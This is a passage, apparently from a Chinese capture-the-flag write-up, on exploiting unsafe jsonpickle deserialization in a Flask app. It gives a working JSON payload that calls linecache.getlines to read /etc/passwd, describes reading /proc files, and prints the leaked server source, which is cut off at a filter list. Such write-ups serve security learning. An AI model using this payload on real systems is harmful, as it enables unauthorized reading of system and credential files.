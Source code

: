 ​	此时页面用户名也相应变成了114514，因此我们就可以利用114514回显。

|      **标签**      |        **功能**        |    **使用场景**    |
| :----------------: | :--------------------: | :----------------: |
|    `py/object`     | 标识实例对象的类型路径 |  自定义类实例重建  |
|     `py/type`      |    标识类型对象本身    |    序列化类定义    |
|     `py/state`     |    存储对象属性状态    |   初始化对象属性   |
|    `py/newargs`    |  指定 `__new__` 参数   |   不可变对象创建   |
| `py/ref` & `py/id` | 处理对象引用和唯一标识 |    循环引用优化    |
|    `py/reduce`     |   执行可调用对象重建   | 复杂对象自定义重建 |
|     `py/tuple`     |      保持元组类型      |   区分元组和列表   |
|      `py/set`      |      标识集合类型      | 序列化集合数据结构 |

> Provided by Deepseek

​	在下方源码中我们可以发现`jsonpickle.decode(decoded, safe=True)`，所以`py/reduce`无法使用，我们可以使用`py/object`来制定方法调用。

​	这道题中有很多过滤，多次尝试之后发现`linecache.getliounes()`没有被过滤，我们尝试构建如下payload：

```json
{"py/object":"__main__.Session","meta":{"user":{"py/object":"linecache.getlines","py/newargsex":[{"py/set":["/etc/passwd"]},""]},"ts":1753532149}}
```

​	成功显示`/etc/passwd`文件内容，此时我们实现了任意读，但是由于权限不足，没有办法读取/flag内容。

​	我们读取`/proc/self/cmdline`和`/proc/self/pwd`获得当前工作路径为`/app`，执行命令为`python app.py`，拼接起来获取到源码路径，我们读取源码如下：

```python
from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import json
import os
import time

app = Flask(__name__)
app.secret_key = os.urandom(24)

class Account:
    def __init__(self, uid, pwd):
        self.uid = uid
        self.pwd = pwd

class Session:
    def __init__(self, meta):
        self.meta = meta

users_db = [
    Account("admin", os.urandom(16).hex()),
    Account("guest", "guest")
]

def register_user(username, password):
    for acc in users_db:
        if acc.uid == username:
            return False
    users_db.append(Account(username, password))
    return True

FORBIDDEN = [
```